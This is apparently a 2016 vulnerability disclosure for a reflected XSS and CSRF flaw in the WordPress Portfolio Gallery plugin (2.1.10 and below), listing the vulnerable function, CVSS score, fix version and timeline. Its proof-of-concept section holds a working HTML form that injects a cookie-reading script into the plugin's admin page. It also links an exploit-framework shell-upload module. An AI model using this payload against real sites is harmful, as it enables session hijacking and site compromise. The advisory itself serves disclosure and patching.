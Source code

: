 ```yaml
---
layout: single
title: Portfolio <= 2.1.10 Reflected XSS Disclosure
date: 2016-10-15
categories:
  - security
  - websec
  - disclosure
tags:
  - wordpress
  - portfolio-gallery
  - reflected xss
excerpt: Due to a lack of CSRF mitigation and entity encoding in the `portfolio_gallery_print_html_nav` function found on line 276 of `/includes/admin/portfolio-gallery-admin-functions.php`, it is possible to execute scripts in the context of an admin user.
---
```

## Homepage
[https://wordpress.org/plugins/portfolio-gallery/](https://wordpress.org/plugins/portfolio-gallery/)

## Overview
Due to a lack of CSRF mitigation and entity encoding in the `portfolio_gallery_print_html_nav` function found on line 276 of `/includes/admin/portfolio-gallery-admin-functions.php`, it is possible to execute scripts in the context of an admin user.

## CVSS Score
4.8

## CVSS Vector
[(AV:N/AC:M/Au:N/C:P/I:P/A:N/E:F/RL:OF/RC:C)](https://nvd.nist.gov/cvss.cfm?calculator&version=2&vector=(AV:N/AC:M/Au:N/C:P/I:P/A:N/E:F/RL:OF/RC:C))


## Versions Affected
2.1.10 and below

## Solution
Upgrade to version 2.1.11 or later

## Proof of Concept
```xml
<form method="post" action="http://[target]/wp-admin/admin.php?page=portfolios_huge_it_portfolio">
  <input name="page_number" value="&quot;&gt;&lt;script&gt;alert(document.cookie);&lt;/script&gt;">
  <input type="submit" value="submit">
</form>
```

## WordPress Exploit Framework Module
[exploit/xss/reflected/portfolio\_reflected\_xss\_shell\_upload](https://github.com/rastating/wordpress-exploit-framework/blob/development/lib/wpxf/modules/exploit/xss/reflected/portfolio_reflected_xss_shell_upload.rb)

## WPVDB-ID
[8637](https://wpvulndb.com/vulnerabilities/8637)

## Disclosure Timeline
* **2016-08-30**: Vendor patched vulnerability
* **2016-10-15**: Published a POC with additional information due to no official disclosure being released to the public
